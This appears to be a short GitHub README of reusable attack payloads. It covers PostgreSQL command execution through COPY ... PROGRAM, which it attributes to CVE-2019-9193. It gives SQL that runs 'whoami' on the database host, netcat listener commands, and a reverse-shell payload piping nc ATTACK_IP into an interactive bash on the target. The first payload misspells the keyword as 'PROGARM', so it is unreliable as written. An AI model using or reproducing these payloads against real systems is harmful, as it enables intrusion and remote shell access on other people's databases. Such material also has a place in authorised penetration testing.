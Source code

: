 # payloads
Finally got tired of writing the same payloads over and over again.

## Postgres 9.3 > Latest Command Execution: CVE-2019-9193
*Data Exfil via COPY FROM PROGARM and SELECT*
```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGARM 'whoami';
SELECT * FROM cmd_exec;
```

*Reverse Shell via COPY TO PROGRAM*
On attack machine tab1 (shell input):
```
nc -lvp 4444
```

On attack machine tab2 (shell output):
```
nc -lvp 4445
```

On the target run the payload listed below. The shell will close when the SQL
query is complete, so you need to set the number of seconds you want the shell
open for via `pg_sleep`. Also be sure to set the ATTACK_IP.
```
COPY (SELECT pg_sleep(120)) TO PROGRAM 'nc ATTACK_IP 4444 | /bin/bash -i 2>&1 | nc ATTACK_IP 4445;'
```
